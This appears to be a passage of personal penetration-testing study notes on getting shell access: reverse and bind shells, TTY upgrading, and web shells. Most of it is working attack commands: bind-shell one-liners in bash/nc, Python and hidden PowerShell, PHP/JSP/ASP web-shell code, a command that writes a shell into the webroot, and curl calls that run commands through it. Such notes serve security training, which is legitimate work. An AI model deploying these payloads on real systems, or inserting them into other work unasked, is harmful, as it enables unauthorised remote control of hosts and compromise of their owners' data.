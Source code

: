 		- first 2 are for bash, third is for powershell
		- 10.10.10.10 is attacker's ip

	- How to know our own ip?
		- `ip a
	- Downside to reverse shell
		- Once the command is stopped, must use initial exploit to get it back again
- Bind shell
	- Target hosts a listening port, we conect to it
	- First execute a bind shell command, which starts listening on a port on the remote host and binds that host's shell (bash/powershell) to that port
		- `bash rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f`
		- `python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'`
		- `powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();`
	- Then, we can connect to that port
		- `nc 10.10.10.1 1234`

Upgrading TTY
- After connecting to the shell, can only type commands or backspace, cannot move text cursor etc.
- Need to upgrade TTY
	- `python -c 'import pty; pty.spawn("/bin/bash")'`
- Then
	- ctrl+z to background shell and get back on our local terminal, then input the following stty command
	- `stty raw -echo`
	- `fg`

Web shell
- Typically a web script (PHP, ASPX) that 
	- accepts our command through HTTP request parameters like GET or POST request parameters
	- executes command
	- prints output back on web page
- Writing a web shell script
	- `<?php system($_REQUEST["cmd"]); ?>`
	- `<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>`
	- `<% eval request("cmd") %>`
- Uploading the web shell
	- Need to place the above script into the remote hosts's web directory (webroot), to execute the script through the web browser
	- This can be through vulnerability in anupload feature, which allows us to write one of our shells to file, eg. shell.php and upload it, then access our uploaded file to execute cmmands
	- However, if we only have remote command execution through exploit, can write shell directly to webroot to access it over the web.
		- Default webroots:
			- Apache: /var/www/html/
			- Nginx: /usr/local/nginx/html/
			- IIS: c:\inetpub\wwwroot\
			- XAMPP: C:\xampp\htdocs\
		- Then use echo to write out our web shell
		- eg.
			- `echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php`
	- Once we write the web shell, can access it through browser or using cURL
		- Browser: visit shell.php page on compromised website, then use the ?cmd=id to execute the id command (can change the command to what you want)
			- `http://SERVER_IP:PORT/shell.php?cmd=id`
		- cURL: 
			- `curl http://SERVER_IP:PORT/shell.php?cmd=id`